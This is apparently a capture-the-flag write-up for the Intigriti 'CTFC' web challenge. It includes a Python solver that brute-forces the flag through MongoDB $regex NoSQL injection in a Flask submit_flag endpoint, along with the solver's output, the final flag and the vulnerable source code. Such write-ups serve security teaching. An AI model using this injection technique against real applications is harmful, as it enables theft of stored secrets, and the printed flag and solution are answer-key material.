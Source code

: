 # CTFC [182 Solves]

## Description

> I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺
>
> Note: flag format is INTIGRITI{.*}
>
> Author: Jopraveen
>
> <https://ctfc.ctf.intigriti.io> || <https://ctfc2.ctf.intigriti.io>
>
> Attachments: CTFC.zip

<details><summary>Attachment file tree</summary>

```console
root@kali:~/ctf/1337UP/Web/CTFC# unzip -q CTFC.zip

root@kali:~/ctf/1337UP/Web/CTFC# tree client
client
├── Dockerfile
├── IntCTFC
│   ├── app.py
│   ├── static
│   │   ├── css
│   │   │   └── style.css
│   │   ├── img
│   │   │   ├── cat.gif
│   │   │   ├── hero-pattern.svg
│   │   │   └── hkr.svg
│   │   └── js
│   │       └── main.js
│   ├── templates
│   │   ├── ctf_template.html
│   │   ├── dashboard.html
│   │   ├── login.html
│   │   ├── register.html
│   │   ├── t_dashboard.html
│   │   └── template.html
│   └── user
│       ├── __init__.py
│       ├── models.py
│       └── routes.py
└── supervisord.conf

8 directories, 17 files
```

</details>

## Flag

INTIGRITI{h0w_1s_7h4t_PAWSIBLE}

## PoC Code

```python
import requests
from datetime import datetime

requests.packages.urllib3.disable_warnings()

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
BASE_URL = "https://ctfc.ctf.intigriti.io"

USERNAME = f"test{datetime.now().timestamp()}"
PASSWORD = "pass"


def main():
    s.post(
        f"{BASE_URL}/user/signup",
        data={"form_username": USERNAME, "form_password": PASSWORD},
        verify=False,
        allow_redirects=False,
    )

    possible = "_}!0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

    flag = "INTIGRITI{"

    # flag length is guess
    for _ in range(50):
        for c in possible:
            print(f"{flag + c}", end="\r", flush=True)

            resp = s.post(
                f"{BASE_URL}/submit_flag",
                json={"_id": "3", "challenge_flag": {"$regex": f"^{flag + c}.*"}},
                verify=False,
            )

            if resp.text == "correct flag!":
                flag += c
                print()

                if c == "}":
                    return

                break

    print(flag)


if __name__ == "__main__":
    main()
```

```console
root@kali:~/ctf/1337UP/Web/CTFC# python3 solver.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

## Solution

```python
# client/IntCTFC/app.py

# (snip)

client = pymongo.MongoClient('localhost',27017)
db = client.ctfdb

def createChalls():
    # (snip)
    db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})
```

The flag is stored into challenge_flag key in MongoDB.

```python
# client/IntCTFC/app.py

# (snip)

@app.route('/submit_flag',methods=['POST'])
@check_login
def submit_flag():
    _id = request.json.get('_id')[-1]
    submitted_flag = request.json.get('challenge_flag')
    chall_details = db.challs.find_one(
            {
            "_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
            "challenge_flag":submitted_flag
            }
    )
    if chall_details == None:
        return "wrong flag!"
    else:
        return "correct flag!"
```

The challenge_flag key of the body in POST request has NoSQL Injection Vulnerability.
For example, if send `{"challenge_flag": {"$regex":"^secretvalue.*$"}}` instead of `{"challenge_flag": "foo"}`, the value stored in MongoDB is leakable.

```console
$ echo -ne 3 | md5sum
eccbc87e4b5ce2fe28308fd9f2a7baf3  -

$ echo -ne eccbc87e4b5ce2fe28308fd9f2a7baf3 | md5sum
38026ed22fc1a91d92b5d2ef93540f20  -
```

Additionally, to match the MD5 hash value stored in MongoDB, it is necessary to set the correct value for the _id key.
However, as confirmed above, setting it to `3` should suffice, because `md5(md5("3"))` is 38026ed22fc1a91d92b5d2ef93540f20.

All that's left to do is to brute force until you match the flag.
